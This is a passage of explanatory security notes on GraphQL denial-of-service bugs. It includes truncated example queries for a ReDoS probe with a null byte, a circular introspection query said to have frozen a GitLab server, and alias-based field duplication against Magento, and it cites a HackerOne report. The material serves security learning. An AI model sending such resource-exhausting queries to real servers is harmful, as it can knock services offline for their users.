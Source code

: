 ```graphql
query {
    search(q: "\u0000)", lang: "en") {
    --snip--
}

In response to this query, the GraphQL API server returned an interesting
error that revealed some information critical to identifying the existence of
the ReDoS vulnerability:

"errors": [
    {
    "message": "value (?=.*\u0000) must not contain null by tes"
    --snip--
    }
]
```

As you can see, the string supplied through the q argument was inserted into regex-matching logic on the server, indicated by the preceding (?=.\*string in the response. The server might use this argument to search for relevant data in a database.

{% embed url="https://hackerone.com/reports/1000567" %}

* **A Circular Introspection Query (GitLab):** A circular introspection query was used to cause a denial of service on a GitLab server . The attack involved creating two fragments that reference each other on the `__Schema` type, leading to an infinite loop and freezing the server . The code snippet for this exploit is:

```graphql
query {
    __schema {
        types {
            fields {
                type {
                    fields {
                        type {
                            --snip--
                        }
                    }
                }
            }
        }
    }
}
```

* **Aliases for Field Duplication (Magento):** A vulnerability using aliases to duplicate fields led to a denial of service . The exploit involves using aliases to send duplicate fields in a query, which can cause the server to consume more resources than necessary .

```graphql
query {
    alias1: countries {
        full_name_english
        full_name_english # continues 1000s of times
        --snip--
    }
    
    alias2: countries {
        --snip--
    }
    
    alias3: countries {
        --snip--
    }
}
```